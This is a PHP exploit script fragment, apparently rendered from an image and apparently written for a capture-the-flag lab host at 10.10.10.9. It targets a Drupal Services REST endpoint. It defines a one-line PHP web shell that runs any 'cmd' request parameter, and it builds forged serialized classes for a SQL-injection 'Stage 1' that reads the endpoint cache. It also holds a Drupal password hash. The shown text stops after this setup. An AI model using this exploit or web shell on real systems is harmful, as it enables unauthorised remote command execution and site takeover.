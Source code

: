 ```php
error_reporting(E_ALL);

define('QID', 'anything');
define('TYPE_PHP', 'application/vnd.php.serialized');
define('TYPE_JSON', 'application/json');
define('CONTROLLER', 'user');
define('ACTION', 'login');

$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'k4miyo.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];

$browser = new Browser($url . $endpoint_path);


# Stage 1: SQL Injection

class DatabaseCondition
{
    protected $conditions = [
        "#conjunction" => "AND"
    ];
    protected $arguments = [];
    protected $changed = false;
    protected $queryPlaceholderIdentifier = null;
    public $stringVersion = null;

    public function __construct($stringVersion=null)
    {
        $this->stringVersion = $stringVersion;

        if(!isset($stringVersion))
        {
            $this->changed = true;
            $this->stringVersion = null;
        }
    }
}

class SelectQueryExtender {
    # Contains a DatabaseCondition object instead of a SelectQueryInterface
    # so that $query->compile() exists and (string) $query is controlled by us.
    protected $query = null;

    protected $uniqueIdentifier = QID;
    protected $connection;
    protected $placeholder = 0;

    public function __construct($sql)
    {
        $this->query = new DatabaseCondition($sql);
    }
}

$cache_id = "services:$endpoint:resources";
$sql_cache = "SELECT data FROM {cache} WHERE cid='$cache_id'";
$password_hash = '$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd';

```